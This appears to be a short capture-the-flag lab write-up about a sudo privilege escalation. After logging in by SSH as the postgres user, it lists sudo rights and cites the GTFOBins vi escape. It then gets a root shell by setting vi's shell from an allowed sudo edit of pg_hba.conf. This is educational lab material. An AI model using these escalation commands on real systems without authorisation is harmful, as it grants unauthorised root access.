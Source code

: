 Connect through ssh with postgres user
```bash
$ ssh postgres@10.129.181.9
```

Enumerate programs that can be executed with sudo
```bash
$ sudo -l
```

Go to [gtfobins](https://gtfobins.github.io/gtfobins/vi/#sudo) to search if we can abuse vi.
```ad-info
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.  

sudo vi -c ':!/bin/sh' /dev/null
```
![[Pasted image 20220612124132.png]]
But this DOES NOT work so lets execute the other command that can be run using sudo
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

1. Insert the comand `:set shell=/bin/sh`
2. Execute `:shell` 

Now we are root. The root flag is in /root.